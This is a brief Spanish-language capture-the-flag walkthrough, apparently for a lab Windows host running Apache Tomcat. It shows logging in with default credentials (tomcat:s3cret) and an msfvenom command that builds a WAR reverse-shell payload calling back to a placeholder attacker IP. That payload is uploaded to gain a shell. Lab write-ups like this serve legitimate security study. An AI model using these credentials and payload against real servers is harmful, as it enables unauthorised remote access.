 10.10.10.95
Windows
Port: 8080

- Vamos a ver su pagina web.
- Tenemos un Tomcat, por lo tanto existe un login para poder entrar.
![](Pasted%20image%2020250322164618.png)
![](Pasted%20image%2020250322164816.png)
- Sabemos que por lo general cuando no se configura bien, Tomcat viene con usuarios predefinidos, vamos a probar cada usuario
- Las credenciales eran, ==tomcat:s3cret==.
![[Pasted image 20250317175955.png]]
- Tenemos como subir un archivo para hacer una reverse.
- Vamos a hacer un payload con msfvenom.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
![[Pasted image 20250317180229.png]]
- Vamos a subirlo.
![[Pasted image 20250317180320.png]]
- Ya esta subido, vamos a hacer la reverse y recordar hacer otra reverse estando dentro para tener una conexión mas estable.
![[Pasted image 20250317180523.png]]
- Ya estamos dentro.
- Buscamos y encontraremos las flags de usuario y root.
